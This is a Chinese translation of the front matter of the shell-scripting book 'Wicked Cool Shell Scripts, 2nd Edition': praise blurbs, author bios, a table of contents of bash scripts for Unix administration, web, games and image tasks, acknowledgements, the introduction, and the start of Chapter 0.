




# 酷炫 Shell 脚本（第 2 版）：Linux、OS X 和 UNIX 系统 101 个脚本示例

## 第一版《极酷 Shell 脚本》好评如潮

“任何初级或中级 Linux 管理员的必备之书。这本书是其他所有出版商试图模仿的典范。”

——LINUXWORLD

“我对这本书的赞赏和推荐怎么表达都不为过。简单来说，这就是我在学习 Linux 时希望能够读到的书。”

——STEVE SUEHRING，LINUXWORLD 编辑

“对于中级到资深 Shell 程序员来说是一个极佳的资源。”

——WEBDEVREVIEWS

“如果你对命令行和 Shell 脚本感兴趣，这是一本极好的书，它将扩展你的知识，并提供一百多个开箱即用的脚本。”

——MACBLOG.COM

“在计算机领域，很少有书能在出版多年后依然有用。《极酷 Shell 脚本》就是其中幸运的少数几本之一。”

——THE BRAINSHED

“极其有趣（真的！）而且充满了脚本。”

——SLASHDOT

## 关于作者

`Dave Taylor` 自 1980 年起就进入了计算机行业。他是 BSD 4.4 UNIX 的贡献者，他的软件被包含在所有主流 UNIX 发行版中。他是一位屡获殊荣的公众演讲者，并撰写了数千篇杂志和报纸文章。他编写了 20 多本书，包括《Learning Unix for OS X》（O'Reilly Media）、《Solaris 9 for Dummies》（Wiley Publishing）和《Sams Teach Yourself Unix in 24 Hours》（Sams Publishing）。作为《Linux Journal》杂志的受欢迎专栏作家，他还维护着一个客户技术支持和 gadget 评论网站 `askdavetaylor.com`。

`Brandon Perry` 在开源 `.NET` 实现 `Mono` 出现后开始编写 `C#` 应用程序。在业余时间，他喜欢为 `Metasploit` 框架编写模块、解析二进制文件以及进行模糊测试（fuzzing）。

## 关于技术审校

`Jordi Gutiérrez Hermoso` 是一名编程人员、数学家和自由黑客。自 2002 年以来，他在家里和工作中一直 exclusively 使用 `Debian GNU/Linux`。Jordi 参与了 `GNU Octave`（一个与 `Matlab` 高度兼容的免费数值计算环境）和 `Mercurial`（一个分布式版本控制系统）的开发。他热爱纯数学和应用数学、滑板、游泳和编织。最近，他一直在思考温室气体排放和犀牛保护工作。

## 2 改进用户命令

### #14 格式化长行

- 代码
- 工作原理
- 运行脚本
- 运行结果

### #15 在删除文件时进行备份

- 代码
- 工作原理
- 运行脚本
- 运行结果
- 破解脚本

### #16 操作已删除文件的存档

- 代码
- 工作原理
- 运行脚本
- 运行结果
- 破解脚本

### #17 记录文件删除日志

- 代码
- 工作原理
- 运行脚本
- 运行结果
- 破解脚本

### #18 显示目录内容

- 代码
- 工作原理
- 运行脚本
- 运行结果
- 破解脚本

### #19 通过文件名定位文件

- 代码
- 工作原理
- 运行脚本
- 运行结果
- 破解脚本

### #20 模拟其他环境：MS-DOS

- 代码
- 工作原理
- 运行脚本
- 运行结果
- 破解脚本

### #21 在不同时区显示时间

- 代码
- 工作原理
- 运行脚本
- 运行结果
- 破解脚本

## 3 创建实用工具

### #22 提醒实用工具 80

- 代码 80
- 工作原理 81
- 运行脚本 81
- 运行结果 82
- 改造脚本 82

### #23 交互式计算器 82

- 代码 83
- 工作原理 84
- 运行脚本 84
- 运行结果 84
- 改造脚本 85

### #24 温度转换 85

- 代码 85
- 工作原理 86
- 运行脚本 87
- 运行结果 87
- 改造脚本 87

### #25 计算贷款还款 87

- 代码 88
- 工作原理 88
- 运行脚本 89
- 运行结果 89
- 改造脚本 90

### #26 事件跟踪 90

- 代码 90
- 工作原理 93
- 运行脚本 94
- 运行结果 94
- 改造脚本 95

## 4 优化 UNIX

### #27 显示带行号的文件 98

- 代码 98
- 工作原理 98
- 运行脚本 99
- 运行结果 99
- 改造脚本 99

### #28 仅对长行进行换行 99

- 代码 100
- 工作原理 100
- 运行脚本 101
- 运行结果 101

### #29 显示带附加信息的文件 101

- 代码 101
- 工作原理 102
- 运行脚本 102
- 运行结果 102

### #30 使用 `quota` 模拟 GNU 风格的标志 103

- 代码 103
- 工作原理 104
- 运行脚本 104
- 运行结果 104

### #31 让 `sftp` 看起来更像 `ftp` 104

- 代码 105
- 工作原理 105
- 运行脚本 105
- 运行结果 106
- 改造脚本 106

### #32 修复 `grep` 107

- 代码 107
- 工作原理 108
- 运行脚本 109
- 运行结果 109
- 改造脚本 109

### #33 处理压缩文件 109

- 代码 110
- 工作原理 111
- 运行脚本 111
- 运行结果 112
- 改造脚本 112

### #34 确保文件最大化压缩 113

- 代码 113
- 工作原理 114
- 运行脚本 115
- 运行结果 115

## 5 系统管理：用户管理 117

### #35 分析磁盘使用情况 119

- 代码 119
- 工作原理 119
- 运行脚本 120
- 运行结果 120
- 改造脚本 120

### #36 报告磁盘占用大户 121

- 代码 121
- 工作原理 122
- 运行脚本 122
- 运行结果 122
- 改造脚本 123

### #37 提高 `df` 输出的可读性 123

- 代码 123
- 工作原理 124
- 运行脚本 124
- 运行结果 124
- 改造脚本 125

### #38 计算可用磁盘空间 125

- 代码 125
- 工作原理 126
- 运行脚本 126
- 运行结果 126
- 脚本修改 126

### #39 实现安全的 `locate` 命令 127

- 代码 127
- 工作原理 129
- 运行脚本 130
- 运行结果 130
- 脚本修改 130

### #40 向系统添加用户 131

- 代码 131
- 工作原理 132
- 运行脚本 133
- 运行结果 133
- 脚本修改 133

### #41 暂停用户账户 133

- 代码 134
- 工作原理 135
- 运行脚本 135
- 运行结果 135

### #42 删除用户账户 136

- 代码 136
- 工作原理 137
- 运行脚本 138
- 运行结果 138
- 脚本修改 138

### #43 验证用户环境 139

- 代码 139
- 工作原理 140
- 运行脚本 141
- 运行结果 141

### #44 客访离开后的清理工作 141

- 代码 142
- 工作原理 143
- 运行脚本 143
- 运行结果 143

## 6 系统管理：系统维护 145

### #45 追踪设置了 User ID 的应用程序 146

- 代码 146
- 工作原理 147


- 运行脚本 147
- 运行结果 147

## #46 设置系统日期 148

- 代码 148
- 工作原理 149
- 运行脚本 150
- 运行结果 150

## #47 根据名称杀死进程 150

- 代码 151
- 工作原理 153
- 运行脚本 153
- 运行结果 153
- 脚本修改 153

## #48 验证用户 `crontab` 条目 154

- 代码 154
- 工作原理 157
- 运行脚本 158
- 运行结果 158
- 脚本修改 158

## #49 确保系统 `cron` 任务运行 159

- 代码 159
- 工作原理 160
- 运行脚本 161
- 运行结果 161
- 脚本修改 161

## #50 轮转日志文件 162

- 代码 162
- 工作原理 165
- 运行脚本 165
- 运行结果 165
- 脚本修改 166

## #51 管理备份 166

- 代码 166
- 工作原理 168
- 运行脚本 168
- 运行结果 168

## #52 备份目录 169

- 代码 169
- 工作原理 170
- 运行脚本 170
- 运行结果 171

## 7 Web 与互联网用户 173

### #53 通过 FTP 下载文件 174

- 代码 175
- 工作原理 175
- 运行脚本 176
- 运行结果 176
- 脚本修改 177

### #54 从网页中提取 URL 177

- 代码 178
- 工作原理 178
- 运行脚本 179
- 运行结果 179
- 脚本修改 180

### #55 获取 GitHub 用户信息 180

- 代码 180
- 工作原理 181
- 运行脚本 181
- 运行结果 181
- 改进脚本 182

### #56 ZIP 邮政编码查询 182

- 代码 182
- 工作原理 182
- 运行脚本 183
- 运行结果 183
- 改进脚本 183

### #57 区号查询 183

- 代码 184
- 工作原理 184
- 运行脚本 184
- 运行结果 185
- 改进脚本 185

### #58 天气追踪 185

- 代码 185
- 工作原理 186
- 运行脚本 186
- 运行结果 186
- 改进脚本 186

### #59 从 IMDb 挖掘电影信息 187

- 代码 187
- 工作原理 188
- 运行脚本 189
- 运行结果 189
- 改进脚本 189

### #60 计算货币价值 190

- 代码 190
- 工作原理 191
- 运行脚本 191
- 运行结果 192
- 改进脚本 192

### #61 检索比特币地址信息 192

- 代码 192
- 工作原理 193
- 运行脚本 193
- 运行结果 193
- 改进脚本 194

### #62 追踪网页变更 194

- 代码 194
- 工作原理 196
- 运行脚本 196
- 运行结果 197
- 改进脚本 197

## 8 网站管理员技巧

- 运行本章脚本 201

### #63 查看 CGI 环境 202

- 代码 202
- 工作原理 202
- 运行脚本 202
- 运行结果 203

### #64 记录 Web 事件 203

- 代码 204
- 工作原理 205
- 运行脚本 205
- 运行结果 206
- 改进脚本 206

### #65 动态构建网页 207

- 代码 207
- 工作原理 208
- 运行脚本 208
- 运行结果 208
- 改进脚本 208

### #66 将网页转换为电子邮件 209

- 代码 209
- 工作原理 210
- 运行脚本 210
- 运行结果 210
- 改进脚本 211

### #67 创建基于 Web 的相册 211

- 代码 211
- 工作原理 212
- 运行脚本 212
- 运行结果 212
- 改进脚本 213

### #68 显示随机文本 213

- 代码 214
- 工作原理 214
- 运行脚本 215
- 运行结果 215
- 改进脚本 215

## 9 Web 与互联网管理

### #69 识别失效的内部链接 217

- 代码 218
- 工作原理 218
- 运行脚本 219
- 运行结果 219
- 改进脚本 220

### #70 报告失效的外部链接 220

- 代码 220
- 工作原理 221
- 运行脚本 222
- 结果 222

### #71 管理 Apache 密码 223

- 代码 223
- 工作原理 226
- 运行脚本 228
- 结果 228
- 改造脚本 229

### #72 使用 SFTP 同步文件 229

- 代码 229
- 工作原理 231
- 运行脚本 231
- 结果 231
- 改造脚本 232

## 10 互联网服务器管理 235

### #73 探索 Apache `access_log` 235

- 代码 236
- 工作原理 238
- 运行脚本 238
- 结果 238
- 改造脚本 239

### #74 理解搜索引擎流量 239

- 代码 240
- 工作原理 241
- 运行脚本 241
- 结果 241
- 改造脚本 242


- #75 探索 Apache `error_log` 242

  - 代码 244
  - 工作原理 245
  - 运行脚本 246
  - 结果 246

- #76 通过远程存档避免灾难 246

  - 代码 247
  - 工作原理 248
  - 运行脚本 248
  - 结果 248
  - 改造脚本 249

- #77 监控网络状态 249

  - 代码 250
  - 工作原理 253
  - 运行脚本 254
  - 结果 255
  - 改造脚本 255

- #78 根据进程名称调整任务优先级（Renicing）255

  - 代码 256
  - 工作原理 257
  - 运行脚本 257
  - 结果 257
  - 改造脚本 258

## 11 OS X 脚本

- #79 自动化屏幕截图（`screencapture`）263

  - 代码 264
  - 工作原理 265
  - 运行脚本 265
  - 结果 265
  - 改造脚本 266

- #80 动态设置终端标题 266

  - 代码 266
  - 工作原理 266
  - 运行脚本 267
  - 结果 267
  - 改造脚本 267

- #81 生成 `iTunes` 库的汇总列表 267

  - 代码 268
  - 工作原理 268
  - 运行脚本 269
  - 结果 269
  - 改造脚本 269

- #82 修复 `open` 命令 269

  - 代码 270
  - 工作原理 270
  - 运行脚本 271
  - 结果 271
  - 改造脚本 271

## 12 Shell 脚本乐趣与游戏

- #83 Unscramble：单词游戏 275

  - 代码 275
  - 工作原理 276
  - 运行脚本 277
  - 结果 277
  - 改造脚本 277

- #84 Hangman：在太迟之前猜出单词 277

  - 代码 278
  - 工作原理 279
  - 运行脚本 280
  - 结果 280
  - 改造脚本 281

- #85 州首府知识问答 282

  - 代码 282
  - 工作原理 283
  - 运行脚本 283
  - 运行结果 283
  - 改造脚本 284

- #86 这个数字是质数吗？285

  - 代码 285
  - 工作原理 286
  - 运行脚本 286
  - 运行结果 286
  - 改造脚本 286

- #87 掷骰子 287

  - 代码 287
  - 工作原理 288
  - 运行脚本 288
  - 改造脚本 290

- #88 Acey Deucey 游戏 290

  - 代码 290
  - 工作原理 294
  - 运行脚本 296
  - 运行结果 296
  - 改造脚本 297

## 13 云端协作 299

- #89 保持 Dropbox 运行 300

  - 代码 300
  - 工作原理 300
  - 运行脚本 301
  - 运行结果 301
  - 改造脚本 301

- #90 同步 Dropbox 301

  - 代码 301
  - 工作原理 303
  - 运行脚本 303
  - 运行结果 303
  - 改造脚本 304

- #91 从云端照片流创建幻灯片 304

  - 代码 305
  - 工作原理 305
  - 运行脚本 306
  - 运行结果 306
  - 改造脚本 306

- #92 使用 Google Drive 同步文件 307

  - 代码 307
  - 工作原理 308
  - 运行脚本 308
  - 运行结果 308
  - 改造脚本 309

- #93 计算机说 309

  - 代码 310
  - 工作原理 311
  - 运行脚本 312
  - 运行结果 312
  - 改造脚本 312

## 14 IMAGEMAGICK 与图形文件处理

- #94 更智能的图像尺寸分析器 314

  - 代码 314
  - 工作原理 314
  - 运行脚本 315
  - 运行结果 315


- 改造脚本 ................................................................. 315

# 95 给图像添加水印

- 代码 ................................................................. 316
- 工作原理 ............................................................. 317
- 运行脚本 ............................................................. 317
- 运行结果 ............................................................. 318
- 改造脚本 ................................................................. 318

# 96 为图像添加边框

- 代码 ................................................................. 319
- 工作原理 ............................................................. 320
- 运行脚本 ............................................................. 321
- 运行结果 ............................................................. 321
- 改造脚本 ................................................................. 321

# 97 创建图像缩略图

- 代码 ................................................................. 322
- 工作原理 ............................................................. 324
- 运行脚本 ............................................................. 325
- 运行结果 ............................................................. 325
- 改造脚本 ................................................................. 325

# 98 解析 GPS 地理位置信息

- 代码 ................................................................. 326
- 工作原理 ............................................................. 327
- 运行脚本 ............................................................. 327
- 运行结果 ............................................................. 327
- 改造脚本 ................................................................. 327

## 15 日期与时间

# 99 查找过去某个特定日期的星期

- 代码 ................................................................. 330
- 工作原理 ............................................................. 331
- 运行脚本 ............................................................. 331
- 改造脚本 ................................................................. 332

# 100 计算两个日期之间的天数

- 代码 ................................................................. 332
- 工作原理 ............................................................. 334
- 运行脚本 ............................................................. 335
- 修改脚本 ............................................................. 335

# 101 计算距离指定日期的天数

- 代码 ................................................................. 335
- 工作原理 ............................................................. 338
- 运行脚本 ............................................................. 338
- 修改脚本 ............................................................. 339

## 在 WINDOWS 10 上安装 BASH

- 开启开发者模式 ......................................................... 342
- 安装 Bash ............................................................. 343
- 微软的 Bash Shell 与 Linux 发行版的区别 ................................. 344

## 额外脚本

# 102 批量重命名文件

- 代码 ................................................................. 346
- 工作原理 ............................................................. 347
- 运行脚本 ............................................................. 347
- 运行结果 ............................................................. 347
- 修改脚本 ............................................................. 348

# 103 在多处理器机器上批量运行命令

- 代码 ................................................................. 348
- 工作原理 ............................................................. 349
- 运行脚本 ............................................................. 350
- 运行结果 ............................................................. 350
- 修改脚本 ............................................................. 350

# 104 查询月相

- 代码 ................................................................. 351
- 工作原理 ............................................................. 352
- 运行脚本 ............................................................. 352
- 运行结果 ............................................................. 353
- 修改脚本 ............................................................. 353

## 索引

355

## 第一版致谢

许多人对本书的创作和开发做出了贡献，其中最值得一提的是 Dee-Ann LeBlanc，她是我的第一代技术审校和永远的 IM 伙伴；以及技术编辑兼脚本专家 Richard Blum，他对书中的大部分脚本提供了重要且有价值的评论。Nat Torkington 在脚本的组织和健壮性方面提供了帮助。在开发阶段提供宝贵协助的其他人员还包括 Audrey Bronfin、Martin Brown、Brian Day、Dave Ennis、Werner Klauser、Eugene Lee、Andy Lester 和 John Meister。MacOSX.com 论坛提供了很大帮助（而且是一个很酷的在线聚集地），AnswerSquad.com 团队则提供了巨大的智慧和无限的拖延机会。最后，如果没有 Bill Pollock 的大力支持以及 Hillel Heinstein、Rebecca Pepper 和 Karol Jurado 在风格上的指导，这本书无法呈现在您手中：感谢整个 No Starch Press 团队！

我想感谢我可爱的孩子们——Ashley、Gareth 和 Kiana——以及我们养的一群动物的支持。

Dave Taylor

## 第二版致谢

在过去的十年中，《Wicked Cool Shell Scripts》已被证明是任何热爱 `bash` 脚本或想要学习更高级技巧的人的一本实用且令人振奋的读物。在更新第二版时，Dave 和我希望为本书带来新鲜空气，并激励下一个十年的 `shell` 脚本探索。如果没有许多人的支持，增加新脚本和完善解释的工作是不可能完成的。

我要感谢我的猫 Sam，在我试图工作时它总是坐在我的笔记本电脑上，因为我相信它是好意，认为自己在帮我。我的家人和朋友对我连续几个月只谈论 `bash` 脚本的行为给予了完全的支持和理解。No Starch Press 团队对一个此前只写过高中论文或博客文章的人给予了极大的支持，因此非常感谢 Bill Pollock、Liz Chadwick、Laurel Chun 以及 No Starch 团队的其他成员。Jordi Gutiérrez Hermoso 在本书技术层面和代码方面提供的建议弥足珍贵，深表感谢。

Brandon Perry

## 引言

自 2004 年本书首次出版以来，Unix 系统管理领域发生了巨大变化。当时，很少有普通计算机用户运行类 Unix 操作系统——但随着 Ubuntu 等对初学者友好的桌面 Linux 发行版流行起来，这种情况开始改变。随后出现了 OS X（苹果基于 Unix 的操作系统的下一次迭代），以及一大批基于 iOS 的技术。如今，类 Unix 操作系统的普及程度比以往任何时候都要高。事实上，如果我们把 Android 智能手机计算在内，它们可能是世界上最无处不在的操作系统。

毋庸置疑，很多事情都变了，但唯一坚持下来的是 Bourne-again shell，也就是 `bash`，它依然是 Unix 用户可用的主流系统 `shell`。在系统管理员、工程师或爱好者的工具箱中，充分利用 `bash` 脚本的能力从未像现在这样成为一项如此必需的技能。

### 核心收获


本书专注于你在编写可移植自动化脚本（例如构建软件或提供编排）时可能面临的常见挑战，使常见任务能够轻松地实现自动化。但最大化利用本书的方法是：将你为每个问题创建的解决方案外推到你可能遇到的其他类似问题中。例如，在第 1 章中，我们通过创建一个小的包装脚本来实现一个可移植的 `echo` 实现。虽然许多系统管理员能从这个特定脚本中获益，但重要的收获是“创建包装脚本以确保跨平台行为一致”这一通用解决方案。在本书接下来的部分中，我们将深入探讨 `bash` 脚本的一些极酷特性以及 Unix 系统中常见的实用工具，将极强的灵活性和力量直接交到你的手中。

### 如果符合以下情况，本书适合你……

`Bash` 仍然是任何在类 Unix 服务器或工作站上工作的人的核心工具，包括 Web 开发人员（其中许多人在 OS X 上开发并部署到 Linux 服务器）、数据分析师、移动应用开发人员和软件工程师——仅举几例！除此之外，越来越多的爱好者在 Raspberry Pi 等开源微型计算机上运行 Linux，以实现智能家居自动化。对于所有这些用途，shell 脚本都是完美的。

无论你是希望通过一些酷炫的 shell 脚本来提升已经相当深厚的 `bash` 技能，还是偶尔才使用一次终端或 shell 脚本的人，这些脚本的应用都具有无穷的实用价值。后一类人群可能希望复习一些快捷技巧，或通过阅读本书来初步接触更高级的 `bash` 概念。

不过，本书并不是一本教程！我们的目标是通过（大多）简短、紧凑的脚本，为你带来 `bash` 脚本和常用工具的实际技术应用，但我们不提供逐行解释。我们会解释每个脚本的核心部分，经验丰富的 shell 脚本编写者可以通过阅读代码来了解其余部分的运作方式。但我们希望读者能够亲自尝试运行脚本——破坏它、修复它，并根据你的需求修改它——从而在实践中摸索。这些脚本的精髓在于解决常见挑战，例如 Web 管理或文件同步——这些是每个技术人员无论使用何种工具都需要解决的问题。

### 本书结构

第二版更新并现代化了原有的 12 个章节，并增加了 3 个新章节。每一章都将演示 shell 脚本的新特性或使用场景，它们共同涵盖了 shell 的广泛应用方式。

脚本可以用来简化您对 Unix 的使用。OS X 用户请放心，本书中的大多数脚本在 Linux 或 OS X 上均可运行；如果不能运行，我们会明确指出。

## 第 0 章：Shell 脚本快速入门

这个为第二版全新增加的章节为 Unix 新手快速介绍 `bash` 脚本的语法及其使用方法。从 shell 脚本最基础的概念到构建和执行简单的 shell 脚本，这个简短且干练的章节将让您快速上手 `bash` 脚本，以便您在第 1 章中能够迅速进入状态。

## 第 1 章：缺失的代码库

Unix 环境下的编程语言，尤其是 C、Perl 和 Python，拥有广泛的实用函数和工具库，用于验证数字格式、计算日期偏移以及执行许多其他实用任务。而在使用 shell 时，我们必须更多地依靠自己，因此第一章重点介绍了各种工具和技巧，使 shell 脚本更加友好。在本章中所学的内容将有助于您理解书中的脚本以及编写您自己的脚本。我们包含了一些输入验证函数、一个简单但强大的 `bc` 脚本化前端、一个用于快速添加逗号以改善大数字显示效果的工具、一种用于绕过不支持 `echo` 实用 `-n` 标志的 Unix 系统的技术，以及一个在脚本中使用 ANSI 颜色序列的脚本。

## 第 2 章和第 3 章：改进用户命令与创建实用工具

这两章介绍了通过各种实用方式扩展和增强 Unix 功能的新命令。事实上，Unix 一个绝佳的方面在于它一直在生长和演进。我们就像其他黑客一样，也致力于推动这种演进，因此这两章提供了实现以下功能的脚本：一个友好的交互式计算器、一个取消删除（unremove）设施、一个时间提醒/事件跟踪系统、一个 `locate` 命令的重新实现、一个多时区日期命令，以及一个增强了目录列表实用性的新版本 `ls`。

## 第 4 章：微调 Unix

这可能被视为异端之说，但 Unix 的某些方面即便经过了几十年的开发，似乎仍然存在缺陷。如果您在不同的 Unix 版本之间切换，特别是开源 Linux 发行版与商业 Unix（如 OS X、Solaris 或 Red Hat）之间，您会意识到缺少标志、缺少命令、命令不一致等类似问题。因此，本章包含对 Unix 命令的重写和前端，使它们更友好或与其他 Unix 系统更一致。其中包含一种为非 GNU 命令添加 GNU 风格全词命令标志的方法。您还将发现几个智能脚本，使处理各种文件压缩工具变得相当容易。

## 第 5 章和第 6 章：系统管理：用户管理与系统维护

如果您拿起这本书，很可能您在某个或多个 Unix 系统上拥有管理权限和管理责任，即便那只是一个个人 Ubuntu 或 BSD 机器。这两章提供了相当多可以改善管理员生活的脚本，包括磁盘使用分析工具、一个能自动向超出配额用户发送电子邮件的磁盘配额系统、一个 `killall` 的重新实现、一个 crontab 验证器、一个日志文件轮转工具以及几个备份实用程序。

## 第 7 章：Web 和互联网用户

本章包含了一系列非常酷的 shell 脚本技巧，展示了 Unix 命令行在处理互联网资源时提供的一些绝妙且简单的方法。其中包括一个从任何网页提取 URL 的工具、一个天气追踪器、一个电影数据库搜索工具，以及一个在发生变化时自动发送电子邮件通知的网站变更追踪器。

## 第 8 章：网站管理员技巧

也许您运行着一个网站，无论是在自己的 Unix 系统上还是在网络中其他地方的共享服务器上。如果您是一名网站管理员，本章中的脚本提供了用于即时构建网页、创建基于 Web 的相册甚至记录 Web 搜索的有趣工具。

## 第 9 章和第 10 章：Web 与互联网管理以及互联网服务器管理

这两章解决了面向互联网的服务器管理员所面临的挑战。它们包含两个用于分析 Web 服务器流量日志不同方面的脚本、用于识别整个网站中损坏的内部或外部链接的工具，以及一个精巧的 Apache 密码管理工具，可轻松维护 `.htaccess` 文件的准确性。此外还探讨了镜像目录和整个网站的技术。

## 第 11 章：OS X 脚本

OS X 凭借其吸引人且商业成功的图形用户界面，在将 Unix 集成到用户友好操作系统方面实现了巨大的飞跃。更重要的是，由于 OS X 在精美的界面背后包含了一个完整的 Unix，因此可以为其编写许多实用且具有教育意义的脚本，而这正是本章探讨的内容。除了自动化屏幕截图工具外，本章中的脚本还探讨了 iTunes 如何存储其音乐库、如何更改终端（Terminal）窗口标题以及如何改进实用的 `open` 命令。

## 第 12 章：Shell 脚本的乐趣与游戏

没有几个游戏的编程书怎么行？本章整合了书中许多最先进的技术和想法，创建了六个有趣且具有挑战性的游戏。虽然本章的目标是娱乐，但每个游戏的代码都非常值得研究。特别值得注意的是“行吊人”游戏，它展示了一些巧妙的编码技巧和 shell 脚本诀窍。

## 第 13 章：云端协作

自本书第一版出版以来，互联网在我们的日常生活中承担了越来越多的责任，其中许多围绕着通过 iCloud、Dropbox 和 Google Drive 等云服务同步设备和文件。本章涵盖了能够让您充分利用这些服务的 shell 脚本，确保文件和目录得到备份和同步。您还将发现几个展示 OS X 处理照片或文本转语音特定功能的 shell 脚本。

## 第 14 章：ImageMagick 与图形文件处理

命令行应用程序不必局限于文本数据或图形。本章致力于使用开源软件 ImageMagick 包含的图像处理工具集，在命令行中识别和操纵图像。从识别图像类型到为图像添加边框和水印，本章中的 shell 脚本完成了常见的图像任务以及更多用例。

## 第 15 章：日期与时间

最后一章简化了处理日期和预约的繁琐细节：计算两个日期相距多久、给定日期是星期几，或者距离指定日期还有多少天。我们使用简单易用的 shell 脚本来解决这些问题。

## 附录 A：在 Windows 10 上安装 Bash

在第二版的开发过程中，微软开始大幅改变其对开源软件的立场，甚至在 2016 年为 Windows 10 发布了一个完整的 `bash` 系统。虽然书中的示例尚未针对此版本的 `bash` 进行测试，但许多概念和解决方案应该是具有很强可移植性的。在本附录中，我们介绍了如何在 Windows 10 上安装 `bash`，以便您可以在 Windows 机器上尝试编写一些超级酷的 shell 脚本！

## 附录 B：奖励脚本

每个优秀的童子军都知道应该永远有一个备份计划！在我们的情况下，我们希望在开发本书期间准备好备份 shell 脚本，以防出现意外需要更换某些脚本。事实证明，我们不需要这些备份，但把秘密藏在朋友心中没什么意思。本附录包含三个额外的脚本——用于批量重命名文件、批量运行命令以及查找月相——在准备好前 101 个脚本后，我们觉得不能把这三个脚本私藏。

## 在线资源

所有 shell 脚本的源文件以及一些修改后的脚本都可以从 `https://www.nostarch.com/wcss2/` 下载。您还可以找到脚本中使用的示例资源文件，例如第 277 页脚本 #84 行吊人游戏的单词列表，以及第 98 页脚本 #27 中来自《爱丽丝梦游仙境》的摘录。

## 最后 . . .

我们希望您喜欢我们在这一经典 shell 脚本书籍中所做的更新和新增脚本。寻找乐趣是学习不可或缺的一部分，本书中的示例之所以被选中，是因为它们写起来很有趣，修改起来也很有趣。我们希望读者在探索本书时能像我们编写它时一样感受到乐趣。尽情享受吧！

## 0

`Bash`（以及广义上的 shell 脚本）已经存在很长时间了，每天都有新的人接触到使用 `bash` 进行 shell 脚本编写和系统自动化的强大功能。随着微软在 Windows 10 中发布了交互式 `bash` shell 和 Unix 子系统，现在是学习 shell 脚本多么简单且高效的最佳时机。

### 究竟什么是 Shell 脚本？

从计算机的早期阶段开始，shell 脚本就一直在帮助系统管理员和程序员执行那些原本需要耗费大量时间和体力的繁琐工作。那么，shell 脚本到底是什么，为什么你应该关注它？Shell 脚本是文本文件，它们针对特定的 shell（在我们的例子中是 `bash`），按照脚本中编写的顺序运行一组命令。`shell` 是你访问操作系统中可用命令库的命令行界面。

Shell 脚本本质上是用 shell 环境中可用命令构建的“小巧”程序，用于自动化特定任务——通常是那些没人喜欢手动执行的任务，例如网络爬虫、跟踪磁盘使用情况、下载天气数据、重命名文件等等。你甚至可以使用 shell 脚本制作简单的游戏！这些脚本可以包含简单的逻辑，比如你在其他语言中可能见过的 `if` 语句，但正如你很快将看到的，它们也可以非常简单。

许多种类的命令行 shell（如 `tcsh`、`zsh` 和经久不衰的 `bash`）适用于 OS X、BSD 和 Linux 操作系统。本书将重点介绍 Unix 环境的主力军 `bash`。每种 shell 都有自己的特性和功能，但大多数人最初在 Unix 上熟悉的是 `bash`。在 OS X 上，“终端”应用会打开一个带有 `bash` shell 的窗口（见图 0-1）。在 Linux 上，命令行 shell 程序多种多样，但常见的命令行控制台是 GNOME 的 `gnome-terminal` 或 KDE 的 `konsole`。这些应用程序可以更改配置以使用不同类型的命令行 shell，但默认都使用 `bash`。本质上，如果你使用的是任何类 Unix 操作系统，打开终端应用程序默认应该会为你提供一个 `bash` shell。

图 0-1：OS X 上的“终端”应用，显示了一个 `bash` 版本

> **注意** 2016 年 8 月，微软为 Windows 10 周年更新版本发布了 `bash`，因此如果你在 Windows 上工作，仍然可以运行 `bash` shell。附录 A 提供了如何在 Windows 10 上安装 `bash` 的说明，但本书假设你在 OS X 或 Linux 等类 Unix 操作系统上运行。欢迎在 Windows 10 上测试这些脚本，但我们不提供保证，且我们自己尚未在 Windows 上对其进行测试！不过，`bash` 的美妙之处在于可移植性，本书中的许多脚本应该能够“直接运行”。

使用终端与系统交互可能看起来是一项艰巨的任务。但随着时间的推移，你会发现，直接打开终端进行快速的系统更改，比在菜单中四处移动鼠标寻找想要更改的选项要自然得多。

### 运行命令

